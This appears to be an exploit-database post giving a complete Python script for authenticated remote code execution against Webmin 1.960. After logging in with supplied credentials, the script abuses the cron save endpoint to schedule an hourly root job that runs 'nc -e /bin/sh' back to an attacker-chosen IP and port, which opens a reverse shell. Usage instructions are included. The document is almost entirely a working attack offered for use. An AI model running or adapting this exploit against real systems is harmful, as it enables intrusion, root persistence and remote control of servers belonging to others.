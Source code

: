 ```yaml
---
layout: post
title: Webmin 1.960 - Remote Code Execution (Authenticated)
date: 2020-10-22 21:00:00 +0000
author: Ahmet Ümit BAYRAM
category: exploit
tags: rce,exploit,command,execution,code,webmin

---
```

\# Exploit Title: Webmin 1.960 - Remote Code Execution (Authenticated)  
\# Date: 2020-10-23  
\# Exploit Author: Ahmet Ümit BAYRAM  
\# Vendor: [https://www.webmin.com](https://www.webmin.com "https://www.webmin.com")  
\# Software Link: [https://netix.dl.sourceforge.net/project/webadmin/webmin/1.960/webmin_1.960_all.deb](https://www.webmin.com "https://www.webmin.com")  
\# Version: 1.960  
\# Tested on: Kali Linux & Ubuntu 18.04.5  
\# CVE: N/A  
  
  
\------- Exploit -------

    #!/usr/bin/python3
    
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    import json
    from urllib3.exceptions import InsecureRequestWarning
    
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning) #added
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
    
    if len(sys.argv) < 6:
        print("Usage: ./exploit.py http(s)://url username password listenerIP listenerPort")
        exit()
    
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
    custom_header = {"Referer": url + "/cron/edit_cron.cgi?new=1&search=&xnavigation=1",
    		 "X-Progressive-URL": url + "/cron/save_cron.cgi",
    		 "X-Requested-From-Tab": "webmin",
    		 "X-Requested-From":"cron",
    		 "X-Requested-With":"XMLHttpRequest"}
    
    req = requests.session()
    login_creds = {
        "user":username,
        "pass":password,
    	}
          
    get_cookie = req.get(url,verify=False)
    cookies = get_cookie.cookies
    
    print("[+] Sendin login request...")
    login = req.post(url + "/session_login.cgi", login_creds, verify = False,cookies = cookies)
    
    
    if "Warning!" not in login.text:
    
    
        payload = "/cron/save_cron.cgi?new=1&idx=&search=&user=root&active=1&cmd=nc%20-e%20%2Fbin%2Fsh%20" + ip + "%20" + port + "&input=&comment=&special=hourly&special_def=0&all_mins=1&all_hours=1&all_days=1&all_months=1&all_weekdays=1&range_def=1&range_start_day=&range_start_month=1&range_start_year=&range_end_day=&range_end_month=1&range_end_year=&undefined="
        page = url + payload
        req2 = req.get(page,verify = False,cookies=login.cookies,headers=custom_header)
        print("[+] Sending payload...")
        print("[+] Check your listener !...")
    
    else:
        print("[-] Wrong credentials or may the system patched.")
        exit()